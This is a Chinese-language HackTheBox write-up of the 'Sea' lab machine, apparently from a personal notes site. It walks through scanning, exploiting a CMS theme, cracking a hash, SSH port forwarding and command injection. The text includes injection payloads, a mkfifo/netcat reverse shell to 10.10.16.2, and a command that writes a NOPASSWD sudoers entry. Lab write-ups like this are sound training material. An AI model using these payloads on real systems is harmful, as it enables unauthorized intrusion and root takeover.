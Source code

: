 ```yaml
---
{"dg-publish":true,"permalink":"/hackthebox 靶场/htb 靶场 sea/","tags":["打靶","渗透","linux","#hackthebox"]}
---
```



 ![image.png](https://s2.loli.net/2025/06/14/VSqv4MFmpf3ls8D.png)
[[思/htb 靶场 sea 思路 1\|htb 靶场 sea 思路 1]]
## nmap 扫描端口
![image.png](https://s2.loli.net/2025/06/14/13JhH7tMsGjQuZX.png)

存在 ssh 端口和 80 web 服务端口

## web 服务信息收集
![image.png](https://s2.loli.net/2025/06/14/VrIei17zydRPwJl.png)


这里需要绑一个域名(sea.htb)

![image.png](https://s2.loli.net/2025/06/14/wlMVFoKRpXPZOJg.png)

有个可以点击的地方，点进去看看

![image.png](https://s2.loli.net/2025/06/14/jaCcqsdGPt56KlO.png)

推断可能是 sql 注入或者 xss 之类的

输入单引号，双引号都是显示以下的提示，这就排除 sql 注入了

![image.png](https://s2.loli.net/2025/06/14/qHdFzGNteS9Vrcj.png)

换个地方找找看

枚举一下网站的目录

![image.png](https://s2.loli.net/2025/06/14/DBL7IAxpSN8it41.png)

会发现扫出一个 theme 目录，还有插件目录。

访问/themes/bike/version

![image.png](https://s2.loli.net/2025/06/14/pu2iQ6UH5wODztm.png)

找到一个版本号，搜搜有漏洞吗

![image.png](https://s2.loli.net/2025/06/14/6CvEJTKIBW9ZLgd.png)


## 漏洞利用

![image.png](https://s2.loli.net/2025/06/14/oIe5p7REui8c9Vd.png)


![image.png](https://s2.loli.net/2025/06/14/FOm7Qfr5DPRkJIM.png)

![image.png](https://s2.loli.net/2025/06/14/UjrL8yG53QgfI9w.png)


![image.png](https://s2.loli.net/2025/06/14/bfFYNxmWpgud1Ry.png)



![](https://s2.loli.net/2025/06/14/b2XKYZTvWdBxPV1.png)



## 提权
反弹 shell 成功，准备提权。用 linpeas 进行信息收集

![image.png](https://s2.loli.net/2025/06/14/c14SV5rdzeKqAN9.png)

有个 8080 端口

![image.png](https://s2.loli.net/2025/06/14/POJm1KHy9cj36q2.png)

找到 user. txt 。但问题是目前还是 www-data用户，还没法进入 amay 目录

![image.png](https://s2.loli.net/2025/06/14/C9fLyEGVboWdxBe.png)

找到一个 messages 目录，应该也是有作用的（实际上并没有作用）

只能慢慢寻找

![image.png](https://s2.loli.net/2025/06/14/VeTxuwciMgtKoZr.png)

在网站的目录中找到一串密码。拉到 john 进行破解一下

但一直报错
![image.png](https://s2.loli.net/2025/06/14/IpFlXkYZzmaP2S6.png)

怀疑是里面的斜杠的问题，删掉之后能成功破解

![image.png](https://s2.loli.net/2025/06/14/qRliMfGDvIWHyQd.png)

知道有个密码，但不知道如何使用，就用来试试是不是/home 中两个用户的密码

![image.png](https://s2.loli.net/2025/06/14/kXt1z2CyVARpGfH.png)

成功登录 amay 用户
![image.png](https://s2.loli.net/2025/06/14/FpO3ERCzyusVUi8.png)

并无东西

![image.png](https://s2.loli.net/2025/06/14/kGYhrz8MuXgeRQc.png)

第一个 flag 到手

基于刚刚在反弹 shell 中找了这么久没点东西，只能用 ssh 端口转发，转发 8080 端口

![image.png](https://s2.loli.net/2025/06/14/4CTsfnOAIdloLGe.png)

真有东西

![image.png](https://s2.loli.net/2025/06/14/zhmQWfe73lbCj9y.png)

是个执行命令的界面
![image.png](https://s2.loli.net/2025/06/14/DKekE4i9CZsXcAJ.png)

bp 抓包

![image.png](https://s2.loli.net/2025/06/14/e8QBd4gJfMkTcwq.png)

能查看到/etc/passwd
![image.png](https://s2.loli.net/2025/06/14/rWB6UsX9PRdVokT.png)

既然是命令注入尝试能不能同时执行命令

![image.png](https://s2.loli.net/2025/06/14/suetKYBf4pC2XIA.png)

被拦住了

![image.png](https://s2.loli.net/2025/06/14/qQmhxv4Ic76gLen.png)


用了这招来绕过
```
用+号来代替空格

其实说白了就是在bp中使用加密
/etc/passwd+/etc/hosts+#

/etc/passwd+%26%26+id+#
/etc/passwd && id #
```


![](https://s2.loli.net/2025/06/14/Ojs3hI1fH9tlecL.png)


![image.png](https://s2.loli.net/2025/06/14/Tc3798yzKjpqZoN.png)

成功

```
反弹shell
/etc/passwd+%26%26+rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|bash+-i+2>%261|nc+10.10.16.2+5555+>/tmp/f+%23

修改权限
/etc/passwd+%26%26+echo+"amay+ALL=(ALL)+NOPASSWD:+ALL"+>+/etc/sudoers.d/amay+#
```

反弹 shell 一下子就自动退出了
![image.png](https://s2.loli.net/2025/06/14/kDUXzynbNjSQt1I.png)

修改权限
![image.png](https://s2.loli.net/2025/06/14/5BMY9SCxeW2jQfI.png)


![image.png](https://s2.loli.net/2025/06/14/CFoV4L9gdmG8Puj.png)


![image.png](https://s2.loli.net/2025/06/14/VdNmaSu7JPo9ljH.png)


![image.png](https://s2.loli.net/2025/06/14/L9rztChApJyUP8e.png)
